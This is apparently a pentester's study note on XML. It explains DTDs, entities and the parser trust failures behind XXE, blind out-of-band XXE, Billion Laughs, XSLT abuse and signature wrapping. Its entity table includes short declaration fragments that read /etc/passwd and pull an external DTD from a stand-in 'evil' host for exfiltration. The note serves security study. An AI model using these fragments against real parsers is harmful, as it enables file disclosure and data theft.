

# XML

#XML #DTD #Entities #Namespaces #XXE #DataFormat #Markup #Standard #SAML #SOAP

## What is it?

**Extensible Markup Language** (W3C; XML 1.0) is a self-describing, hierarchical **text data format**. It's the quiet substrate under a lot of security-relevant tech: SOAP APIs, **SAML** assertions, SVG images, Office documents (DOCX/XLSX are zipped XML), RSS, config files, and XSLT transforms. You almost never attack "XML" as such — you attack a **parser's handling of XML features**, chiefly **external entities** (XXE), reached through any endpoint that accepts XML (or a format that's XML underneath). This note is the format and the parser features that make it dangerous; the payloads are under [[#Attacked by]].

---

## How it works

### Document anatomy

- **Prolog** — the XML declaration and an *optional* `DOCTYPE` (the DTD). Everything dangerous lives here, **before** the root element.
- **Root element** then nested **elements**, **attributes**, text, `CDATA`, comments, processing instructions.
- **Namespaces** (`xmlns`) qualify element names — essential to SAML/SOAP, and where signature-wrapping *confusion* hides.
- **Well-formed** (syntactically correct) vs **valid** (conforms to a DTD/schema) are different bars — parsers can be strict about one and not the other.

### DTD & entities — the dangerous part

A **DTD** (in the prolog) can declare **entities** — reusable substitutions the parser expands wherever it sees `&name;`:

| Entity type | Declaration | Reference | Risk |
|---|---|---|---|
| Internal general | `<!ENTITY x "text">` | `&x;` | Benign substitution |
| **External general** | `<!ENTITY x SYSTEM "file:///etc/passwd">` | `&x;` | **XXE** — parser fetches the resource |
| **Parameter** | `<!ENTITY % p SYSTEM "http://evil/e.dtd">` | `%p;` (in DTDs) | **Blind / OOB XXE** — chains external DTDs to exfiltrate |
| Nested internal | `<!ENTITY a "&b;&b;">` … | `&a;` | **DoS** — exponential expansion (Billion Laughs) |

The single fact behind most XML attacks: **a document can instruct the parser to reach outside itself** (fetch a file, fetch a URL) or to **expand references without bound** — and older/default parser configs obey.

---

## Trust model — where it breaks

The design deliberately lets a document *direct* the parser — declare entities, pull external resources, expand references, transform output. Every XML attack is one of those directives honored on untrusted input.

| Assumption the design rests on | When it fails… | Attack (payloads in the linked note) |
|---|---|---|
| Parser **won't resolve external entities** | External entities enabled (legacy defaults) | **XXE** — local file read, SSRF, port scan |
| No entity **can reach out** for blind cases | Parameter entities + external DTD allowed | **Blind / OOB XXE** — exfiltrate over DNS/HTTP via a hosted DTD |
| Entity expansion is **bounded** | Unbounded nesting allowed | **Billion Laughs / quadratic blowup** DoS |
| No **remote includes** | `XInclude` / XSLT `document()` enabled | XInclude file/SSRF, **XSLT** transform abuse |
| A signature covers **what's read** (signed XML) | Namespace / `Id` confusion | **XML Signature Wrapping (XSW)** → [[SAML]] |
| Queries built safely | User input concatenated into XPath | **XPath injection** |

> [!note]
> No payloads here — this is the "why." Modern parsers increasingly disable external entities by default, so the real question on an engagement is *which* parser and *how it's configured* — the exploit detail lives in the linked notes.

---

## Attacked by

- [[Sr Tester Role/Topics/XXE|XXE]] — the entity mechanism in anger: file read, SSRF, blind/OOB via parameter entities + hosted DTD, Billion Laughs.
- [[Class notes/HTB Academy/CWES Claude/Server-Side Attacks|Server-Side Attacks]] — **XSLT Injection** (XML→output transforms; `document()` for SSRF/LFI) and SSRF that overlaps XXE.
- [[SAML]] — signed-XML assertions are where XML's weaknesses become auth bypasses: **XSW** and **XXE-in-assertion**.

**Tooling:** [[Tools/Web/Burpsuite|Burp Suite]] (+ **SAMLRaider** for XSW), `xmllint` to validate/format, and any XXE OOB listener (Collaborator / interactsh).

---

## See also

[[SAML]] (the signed-XML standard built directly on this), [[OAuth-OIDC]] / [[JWT]] (the JSON-era auth standards that largely displaced XML/SOAP)  ·  Index: [[_Standards & Protocols]]

*Created: 2026-07-31*
*Updated: 2026-07-31*
*Model: claude-opus-4-8*
